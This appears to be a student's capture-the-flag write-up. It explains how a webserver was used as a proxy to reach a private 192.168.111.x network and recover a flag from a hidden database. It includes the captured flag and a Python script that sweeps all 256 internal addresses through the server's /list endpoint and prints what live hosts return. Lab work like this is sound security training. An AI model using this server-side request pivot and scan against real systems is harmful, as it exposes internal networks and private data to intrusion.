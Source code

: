 These addresses are private IP addresses from class C. We can't access it directly from our computer, but it seems to be possible through the webserver.
This means the databases and the webserver are on the same private network.

## The hacker has also a private database storing a secret flag. What is this flag?

```
The flag is : {"email":"flag","password":"SLH_23{M4ch1n354nd4ndr01d5}"}
```
\pagebreak

## How did you find the flag? Explain your attack clearly.

Considering the fact that the two previous servers were on a private network (I couldn't reach directly).
I determined it would be possible to use the webserver as an intermediate/proxy to reach this network.

So, I did a script which changes the IP in the payload to test all the servers in the range [192.168.111.0 - 192.168.111.255].
This way I found out that the server with the IP 192.168.111.137 was UP, I knew that by check the status code in the response (code 200 - OK).
I printed the content of the response and looked for something mentioning the flag.

```python
import requests

# URL of the webserver
url = "http://10.190.133.22:9002/list"

# Payload
data = {"server": "", "email": ""}

response_text = None

# IP prefix of the network
ip_prefix = "192.168.111."

# Loop through each server IP to check if it's up and running
for i in range(256):
    ip = ip_prefix + str(i)
    data["server"] = ip
    response = requests.post(url, json=data)

    # If the tested IP is up and is different from the two known ones, we display the response
    if response.status_code == 200:
        print(f"IP address : {ip}, is UP !")
        if ip != "192.168.111.11" and ip != "192.168.111.12":
            response_text = response.text
            print(f"Content for the IP address: {ip}:")
            print(response_text)
```
